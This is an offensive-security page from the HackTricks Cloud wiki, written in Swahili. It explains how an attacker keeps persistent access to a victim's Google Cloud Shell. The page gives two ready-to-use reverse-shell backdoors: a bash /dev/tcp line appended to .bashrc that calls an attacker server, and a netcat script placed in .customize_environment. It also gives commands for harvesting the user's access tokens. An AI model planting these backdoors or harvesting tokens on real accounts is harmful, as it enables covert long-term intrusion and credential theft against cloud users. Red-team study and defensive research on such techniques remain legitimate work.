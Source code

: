 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Kwa maelezo zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwa kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kufikia Cloud Shell ya Google kutoka **web console** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa washambuliaji:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa mfano wa Cloud Shell ulio na uthibitisho kamili (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Mfano huo uta **hifadhi saraka yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayoendelea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli za mfano huo.

Hii inamaanisha kwamba mshambuliaji anaweza kuweka backdoor katika saraka ya nyumbani ya mtumiaji na kadri mtumiaji anavyounganisha kwenye GC Shell kila siku 120 angalau, backdoor itadumu na mshambuliaji atapata shell kila wakati inapoendeshwa kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Kuna faili nyingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwa ipo, itakuwa **inasimamiwa kila wakati** mtumiaji anapofikia **cloud shell** (kama katika mbinu ya awali). Ingiza tu backdoor ya awali au moja kama ifuatavyo ili kudumisha uvumilivu kadri mtumiaji anavyotumia "mara kwa mara" cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kutambua kwamba **wakati wa kwanza kitendo kinachohitaji uthibitisho kinapofanywa**, dirisha la ruhusa linaonekana kwenye kivinjari cha mtumiaji. Dirisha hili lazima likubaliwe kabla ya amri kuweza kuendesha. Ikiwa dirisha lisilotarajiwa linaonekana, linaweza kuleta wasiwasi na huenda likaharibu njia ya kudumu inayotumika.
{% endhint %}

Hii ndiyo pop-up kutoka kwa kutekeleza `gcloud projects list` kutoka kwa cloud shell (kama mshambuliaji) iliyoangaliwa katika kikao cha kivinjari cha mtumiaji:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Hata hivyo, ikiwa mtumiaji amekuwa akitumia cloudshell kwa shughuli, pop-up haitatokea na unaweza **kusanya tokens za mtumiaji kwa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi muunganisho wa SSH unavyoundwa

Kimsingi, hizi API calls 3 zinatumika:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ita kufanya uongeze funguo yako ya umma uliyounda kwa ndani)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (ita kufanya uanze mfano)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (ita kuambia ip ya google cloud shell)

Lakini unaweza kupata taarifa zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeleo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
